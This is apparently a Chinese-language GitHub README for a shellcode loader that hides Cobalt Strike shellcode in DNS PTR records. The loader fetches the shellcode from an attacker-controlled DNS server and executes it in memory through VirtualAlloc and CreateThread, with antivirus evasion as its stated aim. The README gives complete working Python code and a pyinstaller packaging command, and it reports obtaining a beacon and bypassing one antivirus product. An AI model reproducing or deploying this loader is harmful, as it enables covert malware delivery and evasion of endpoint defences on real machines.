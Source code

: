 # DnsPTRShellcodeLoader
利用DNS的PTR记录远程加载shellcode
DNS解析中的PTR记录负责反向解析，即把IP地址解析为域名。利用PTR记录保存shellcode，然后通过dns请求获取到shellcode后执行，来达到免杀的目的。

PTR记录的两个特性

1.不区分大小写，dns解析结果统一转为小写

2.格式不定，可以出现包括“!@#$%^&*()_+=/?<>”在内的各种特殊字符和空格，只有反斜杠“\”会被过滤。







在本地服务器添加

[![imgbed.cn图床](https://vkceyugu.cdn.bspapp.com/VKCEYUGU-b1ebbd3c-ca49-405b-957b-effe60782276/55f3eca3-d8ea-4169-a549-326d7d2c8f0b.png)](https://imgbed.cn/preview?id=6038a9145dc5370001f7945a)



进行反向解析查询，192.168.111.135为DNS服务器的ip

```
nslookup -qt=ptr 192.168.111.1 192.168.111.135
```



可以看到成功获取了之前设置好的内容，可以把这一段代码替换成shellcode

[![imgbed.cn图床](https://vkceyugu.cdn.bspapp.com/VKCEYUGU-b1ebbd3c-ca49-405b-957b-effe60782276/15a83f1b-d165-43f1-a686-f9d8bcb36d54.png)](https://imgbed.cn/preview?id=6038a92234dcf30001560686)



用cs生成shellcode，由于shellcode本质是一串十六进制的机器码，因此可以先去掉前面的转义字符\x并以字符串的形式保存在PTR记录中，执行时再转为十六进制格式，也符合PTR记录中不能出现反斜杠的规则

[![imgbed.cn图床](https://vkceyugu.cdn.bspapp.com/VKCEYUGU-b1ebbd3c-ca49-405b-957b-effe60782276/e10794e5-a243-4aa6-9733-36ea2f2d29d6.png)](https://imgbed.cn/preview?id=6038a9299efdd1000197edba)



分割shellcode，每个ip对应的PTR记录保存一行，这里添加的IP为192.168.111.20-192.168.111.59

[![imgbed.cn图床](https://vkceyugu.cdn.bspapp.com/VKCEYUGU-b1ebbd3c-ca49-405b-957b-effe60782276/ed33f484-e269-47da-9eb8-4977fe010783.png)](https://imgbed.cn/preview?id=6038a92ff6094a0001be155e)

去掉所有的\x，把它们分割成多个部分按照顺序添加到PTR记录中



[![imgbed.cn图床](https://vkceyugu.cdn.bspapp.com/VKCEYUGU-b1ebbd3c-ca49-405b-957b-effe60782276/639345d2-490c-4ccd-b8c2-a486d3f743d1.png)](https://imgbed.cn/preview?id=6038a93854a29f0001250fb6)



只需要按照顺序对相应的ip发起请求即可获得部分shellcode

[![imgbed.cn图床](https://vkceyugu.cdn.bspapp.com/VKCEYUGU-b1ebbd3c-ca49-405b-957b-effe60782276/89663213-ac73-4f85-8f87-482c5a632e42.png)](https://imgbed.cn/preview?id=6038a943002aec0001e11199)



利用python的dnspython库获取PTR记录中的shellcode，然后分配内存执行

```python
import dns.resolver
import dns.reversename
import ctypes

dnsip='192.168.111.135'

def LoadshellCode(shellcode):   #执行shellcode
    ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_uint64
    ptr = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0), ctypes.c_int(len(shellcode)), ctypes.c_int(0x3000),ctypes.c_int(0x40))
    buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
    ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_uint64(ptr),buf,ctypes.c_int(len(shellcode)))
    handle = ctypes.windll.kernel32.CreateThread(ctypes.c_int(0),ctypes.c_int(0),ctypes.c_uint64(ptr),ctypes.c_int(0),ctypes.c_int(0),ctypes.pointer(ctypes.c_int(0)))
    ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(handle), ctypes.c_int(-1))

def requestptr(dnsip,ipnum):      #获取PTR记录
    ipaddr='192.168.111.%d' %ipnum    #添加的PTR记录中主机ip地址的C段地址
    ip=dns.reversename.from_address(ipaddr)
    my_resolver = dns.resolver.Resolver()
    my_resolver.nameservers = [dnsip]
    answer = my_resolver.resolve(ip,'PTR')
    recvptr=str(answer[0]).strip('.')
    return recvptr

def str2hex(shellcodedemo):    #将得到的shellcode转为十六进制
    s=''
    s1=b''
    for i in range(int(len(shellcodedemo))):
        if i % 2 == 0:
            s1 += bytes.fromhex(shellcodedemo[i:i + 2])
    return bytearray(s1)

if __name__=='__main__':
    s=''
    for i in range(20,60):    #根据添加的ip范围进行请求，192.168.111.20-192.168.111.59对应range(20,60)
        s+=requestptr(dnsip,i)
    LoadshellCode(str2hex(s))
```





使用pyinstaller打包成exe文件，

```
pyinstaller -F -w dnsptrshellcode.py
```

[![imgbed.cn图床](https://vkceyugu.cdn.bspapp.com/VKCEYUGU-b1ebbd3c-ca49-405b-957b-effe60782276/437f09e7-a1de-4344-8d2d-3265203b6084.png)](https://imgbed.cn/preview?id=6038a9d65fd5720001ff8f56)



pyinstaller默认一并打包所有库，造成生成的exe文件体积过大，可以利用虚拟环境打包的方式压缩下体积，压缩后的体积大概为3M左右

https://blog.csdn.net/p1967914901/article/details/109706449



拿到beacon

[![imgbed.cn图床](https://vkceyugu.cdn.bspapp.com/VKCEYUGU-b1ebbd3c-ca49-405b-957b-effe60782276/f21e02d7-fa49-44ad-a572-2d9765a1ebe2.png)](https://imgbed.cn/preview?id=6038a94a171e740001e39ed5)

可以绕过360，但被火绒查杀

[![imgbed.cn图床](https://vkceyugu.cdn.bspapp.com/VKCEYUGU-b1ebbd3c-ca49-405b-957b-effe60782276/91fead06-ff05-4440-ba4b-152483127bcb.png)](https://imgbed.cn/preview?id=6038a95c6cea45000126276c)

参考：

https://www.freebuf.com/articles/network/185324.html
